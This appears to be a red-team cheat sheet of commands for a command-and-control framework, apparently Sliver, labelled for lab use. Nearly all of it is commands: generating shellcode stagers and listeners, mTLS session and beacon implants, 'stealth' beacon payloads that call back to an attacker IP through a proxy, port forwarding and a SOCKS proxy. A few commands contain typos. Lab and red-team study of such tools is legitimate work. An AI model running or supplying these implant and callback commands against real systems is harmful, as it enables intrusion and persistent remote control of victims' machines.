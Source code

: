 - Generate a shell code (session) : 
```sh
profiles new --mtls 10.8.3.12 --format shellcode win-shellcode

stage-listener --url http://10.8.3.12:9001 --profile win-shellcode

generate stager --lhost 10.8.3.12 -lport 9001 --protocole http --save /tmp
```
https://github.com/JohnHammond/binnim

- Start listener : 
```sh
mlts
use sessionId
```

- Generate Session Implant for Labs : 
```sh
generate --mtls 10.8.3.12:443 --save /workspace
mtls --lport 443
#or 
generate --mtls 10.8.3.12 --os linux --arch amd64 --skip-symbols --save /workspace --name heron
mtls
```

-  Generate Beacon Implant for Labs : 
```sh
generate beacon --mtls 10.8.3.12:4431 --save /workspace/beacon.exe --seconds 5 --jitter 3
```

- Regenerate an Implant : 
```sh
regenerate --save /Users/moloch/Desktop NEW_GRAPE
```

- Port Forwarding
```sh
portfwd add --remote 10.10.10.10:22
```

- Stealth payloads 
```sh
generate beacon --seconds 30 --jitter 3 --os windows --arch amd64 --format shellcode --http <attacker ip>?proxy=http://<proxy ip>:8080,<attacker ip>?driver=wininet --name wutai-http --save /tmp/http.bin -G --skip-symbols
```

- Proxychains : 
```sh
socks5 start
```